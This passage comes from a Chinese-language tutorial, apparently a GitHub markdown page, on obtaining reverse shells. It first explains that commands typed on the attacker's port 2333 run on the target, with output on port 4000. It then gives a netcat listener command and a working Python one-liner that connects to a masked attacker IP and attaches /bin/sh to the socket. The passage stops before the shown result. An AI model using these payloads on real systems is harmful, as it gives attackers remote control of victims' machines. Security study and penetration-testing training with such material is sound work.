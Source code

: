 ![image-20210505233548472](images/image-20210505233548472.png)

如上图所示，获得shell后，在攻击机2333端口的终端上输入的命令会在目标机上执行，执行的回显将通过4000端口的终端显示出来。

## 各种脚本反弹shell

### Python 脚本反弹shell

当目标主机上有python环境时，我们可以用Python来反弹shell。Python在现在一般发行版Linux系统中都会自带，所以使用起来也较为方便，即使没有安装，我们手动安装也很方便。

**攻击机开启本地监听：**

```
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.xxx.xxx.72",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

执行效果如下：
